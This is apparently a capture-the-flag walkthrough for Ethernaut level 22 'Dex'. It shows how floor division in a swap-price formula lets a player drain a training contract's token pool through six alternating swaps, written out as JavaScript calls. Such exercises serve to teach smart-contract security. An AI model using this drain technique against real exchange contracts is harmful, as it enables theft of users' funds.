 [Level 22. Dex](https://ethernaut.openzeppelin.com/level/22)

## In A Nutshell

> In Solidity, division rounds to the floor.

## Concept

1. There's no floating point in Solidity.
2. Division should be cautiously approached, as precision loss can result in serious consequences.

## Level Target

1. Drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Breakdown & Analysis

1. The formula in the function `getSwapPrice()` contains a flaw. The division will result in having more balance before each swap.
2. We can swap token 1 and token 2 alternately.

|              | DEX - Token1 | DEX - Token2 | Player - Token1 | Player - Token2 |
| ------------ |--------------|--------------|-----------------|-----------------|
| Before Swap  |      100     |      100     |        10       |        10       |
| After Swap 1 |      110     |      90      |        0        |        20       |
| After Swap 2 |      86      |      110     |        24       |        0        |
| After Swap 3 |      110     |      80      |        0        |        30       |
| After Swap 4 |      69      |      110     |        41       |        0        |
| After Swap 5 |      110     |      45      |        0        |        65       |
| After Swap 6 |      0       |      90      |       110       |        20       |

## Detailed Steps

```js
await contract.approve(contract.address, 300); // approve the contract to spend our token1 and token2.
token1 = await contract.token1(); // get token1's contract address
token2 = await contract.token2(); // get token2's contract address
await contract.swap(token1, token2, 10); // swap 1
await contract.swap(token2, token1, 20); // swap 2
await contract.swap(token1, token2, 24); // swap 3
await contract.swap(token2, token1, 30); // swap 4
await contract.swap(token1, token2, 41); // swap 5
await contract.swap(token2, token1, 45); // swap 6. Note that we can't swap with all our token2 balance since there are only 45 token2 in the pool at this time.
```

